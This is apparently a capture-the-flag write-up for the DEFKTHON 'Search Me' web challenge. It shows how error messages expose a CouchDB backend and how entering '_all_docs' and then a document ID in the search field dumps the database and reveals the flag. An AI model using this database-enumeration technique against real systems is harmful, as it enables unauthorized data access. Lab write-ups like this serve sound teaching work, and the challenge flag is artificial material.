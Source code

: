 # DEFKTHON CTF: Web 400

**Description:**

> [Search Me](http://54.201.96.212:888/web400/web_search.php)

## Write-up

The `web_search.php` endpoint contains a form, and (by default) displays the following error message:

```
Error: Document ID is empty (errcode=0)
```

Let’s enter `test` in the search field and submit the form. [The response](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=test) contains:

```
Error: Object Not Found - missing (GET /astro_users/test []) (errcode=404)
```

[This error message format](https://www.google.com/search?q="%22Object%20Not%20Found%20-%20missing%22") is a hint that CouchDB is used.

CouchDB has [an `_all_docs` endpoint](http://couchdb.readthedocs.org/en/latest/api/database/bulk-api.html#get--db-_all_docs) that returns a list of all available documents in the database, in JSON format. (Note: [`_changes`](http://couchdb.readthedocs.org/en/latest/api/database/changes.html) could be used as well.) [Let’s take a look](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=_all_docs):

```
stdClass Object
(
    [total_rows] => 3
    [offset] => 0
    [rows] => Array
        (
            [0] => stdClass Object
                (
                    [id] => flag_for_l33ts
                    [key] => flag_for_l33ts
                    [value] => stdClass Object
                        (
                            [rev] => 4-f9d777fcf20c3fc52943aeba961593e9
                        )

                )

            [1] => stdClass Object
                (
                    [id] => userid1
                    [key] => userid1
                    [value] => stdClass Object
                        (
                            [rev] => 3-3125d533dea89836adec3b8a5a652030
                        )

                )

            [2] => stdClass Object
                (
                    [id] => userid2
                    [key] => userid2
                    [value] => stdClass Object
                        (
                            [rev] => 5-0090aa4c0db1f8d52a74d6134b2e48ef
                        )

                )

        )

)
```

`flag_for_l33ts` sounds interesting. [Let’s check it out](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=flag_for_l33ts):

```
stdClass Object
(
    [_id] => flag_for_l33ts
    [_rev] => 4-f9d777fcf20c3fc52943aeba961593e9
    [flag_for_l33ts_only] => flag{here_you_go_nice_solving_webChalLenges}
)
```

The flag is `here_you_go_nice_solving_webChalLenges`.

## Other write-ups

* none yet
